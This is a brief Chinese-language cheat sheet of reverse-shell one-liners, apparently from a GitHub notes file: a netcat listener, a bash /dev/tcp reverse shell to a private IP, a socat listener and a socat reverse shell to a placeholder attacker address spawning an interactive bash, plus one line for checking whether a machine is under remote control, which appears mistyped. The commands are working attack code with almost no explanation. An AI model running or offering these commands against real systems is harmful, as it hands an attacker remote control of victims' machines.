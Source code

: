 # 反弹shell 例子

## 控制端 （被控端连上以后，就可以操作被控端了）

    nc -vnlp 4444

## 被控端

    bash -i >& /dev/tcp/192.168.1.53/4444 0>&1

## 检查是否被远控

    netcat -antup

## 介绍

    https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#reverse-shell

## 控制端

    socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0

## 被控端

    socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane

## socat ssl tunnel

    https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#ssl-socat-tunnel


